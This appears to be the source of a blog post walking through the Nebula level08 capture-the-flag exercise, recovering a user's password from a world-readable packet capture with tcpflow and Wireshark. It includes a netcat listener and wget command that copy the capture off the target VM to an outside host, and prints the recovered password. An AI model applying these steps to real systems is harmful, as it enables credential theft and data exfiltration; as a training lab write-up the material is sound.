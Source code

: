 ```yaml
---
layout: post
title: "World readable files strike again"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 08](http://exploit-exercises.com/nebula/level08) Agenda**: "Check what that user was up to, and use it to log into flag08 account."

<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/strikes-again.jpg">
</center>
<br />
All right!!! So basically, what do we have to start with, is a single [pcap](http://en.wikipedia.org/wiki/Pcap) file format:
{% highlight sh linenos %}
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
{% endhighlight %}
If working with TCP based protocols it can be very helpful to see the data from a TCP stream in the way that the application layer sees it. Perhaps you are looking for passwords in a Telnet stream, or you are trying to make sense of a data stream (From the "[_7.2. Following TCP streams_](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowTCPSection.html)" wireshark doc ref).


Without doubts [Wireshark](http://en.wikipedia.org/wiki/Wireshark) is a wounderful tool (nonetheless, we aren't able to use [X11-server](https://en.wikipedia.org/wiki/X_Window_System) on Nebula VM. Actually, all is [possible =)](http://www.quora.com/How-valid-are-the-ideas-in-Athenes-theory-of-everything) but that's definitely is not the best way). It worth to notice that there's also exist console version called [tshark](https://www.wireshark.org/docs/man-pages/tshark.html) but unfortunately, attempt to setup it on VM due to some failures was unsuccessful. That's why I had to use what was at hand, in particular [tcpflow](http://www.circlemud.org/jelson/software/tcpflow/):
{% highlight sh linenos %}
level08@nebula:/home/flag08$ tcpflow -cer ./capture.pcap
{% endhighlight %}
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_0.png">
</center>
Blue color indicates client to server flow and the red one is server to client. The default behavior in case of printing to file/console is converting all non-printable characters to the "." character. We have four dots in the password, let’s not guessing but making clear for sure what it exactly is by using wireshark (cannot escape from fate) on the outer host. 

Firstly need to pass this instance file out and [netcat](http://en.wikipedia.org/wiki/Netcat) will help in this.
{% highlight sh linenos %}
level08@nebula:/home/flag08$ nc -l 8888 < ./capture.pcap
# And then on the outer host:
nobody@home$ wget -O capture.pcap 192.168.56.102:8888
{% endhighlight %}
Checking out on the wireshark:
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_1.png">
</center>
If grab the [ASCII](http://www.asciitable.com/) table it appears that "_7F_" hex represents [delete](http://en.wikipedia.org/wiki/Delete_character) and "_0D_" - [carriage return](http://en.wikipedia.org/wiki/Carriage_return) symbols respectively. The final note as conclusion, after applying "_DEL_", the passphrase (flag08 account) becomes - "_backd00Rmate_". Hell yeah (òÓ,)_\,,/ !